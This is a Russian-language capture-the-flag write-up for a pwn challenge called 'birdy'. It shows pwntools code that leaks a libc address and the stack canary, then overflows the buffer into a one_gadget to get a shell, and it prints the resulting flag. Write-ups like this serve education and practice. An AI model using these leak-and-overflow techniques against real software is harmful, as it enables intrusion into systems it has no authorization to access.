 # birdy

Патчим бинарник с помощью pwninit, открываем и видим две функции для чтения и записи на стек.

Если вызвать функцию read_buffer предварительно не записав никаких данных, то наш буфер будет указывать на структуру _IO_2_1_stdout из libc, наша функция выведет указатель на этот адрес, сразу подсчитаем его оффсет от базы libc, это пригодится позже для ret2_libc.
```
00007FFF779501D0  00007FFF77950200  [stack]:00007FFF77950200
00007FFF779501D8  0000000164095C0F  
00007FFF779501E0  00007F06642045C0  libc.so.6:_IO_2_1_stdout_
00007FFF779501E8  00007F0664202030  libc.so.6:_IO_file_jumps
00007FFF779501F0  0000000000000000 
```
```
base = p.recvline()
base = base[-7:-1]
print(base)
base = u64(base.ljust(8, b"\x00")) - 2115008
#offset 0x2045C0 in hex
```
---
Теперь надо ликнуть адрес канарейки, для этого мы воспользуемся свойством функции read из libc - не добавлять 0x00 в конце считываемой строки. Для этого запишем в буфер ровно 73 байта (73 байт для перетирания нуля в канарейке) и потом считываем наш буфер.
```
p.sendline(b"2")
p.recv()

p.sendline(b"73")
p.send(b"A" * 73)

p.recv()
p.sendline(b"1")

can = p.recvline()
can = can[-8:-1]
```
Канарейка ликнута.

---
Переполняем буфер не забыв вставить канарейку, выполняем one gadget в libc.
```
p.sendline(b"144")
p.send(b"A" * 72 + p8(0) + can +b"A" * 8 +  p64(0) +  b"A" * 40 + p64(one)) #нули для правильной работы гаджета
p.sendline(b"3")
```
---
Получаем шелл, печатаем флаг.
```
$ cat flag.txt
[DEBUG] Sent 0xd bytes:
    b'cat flag.txt\n'
[DEBUG] Received 0x25 bytes:
    b'MSKCTF{l33king_7h3_c4n4r33_fc4b809c}\n'
```

---
# Flag: MSKCTF{l33king_7h3_c4n4r33_fc4b809c}

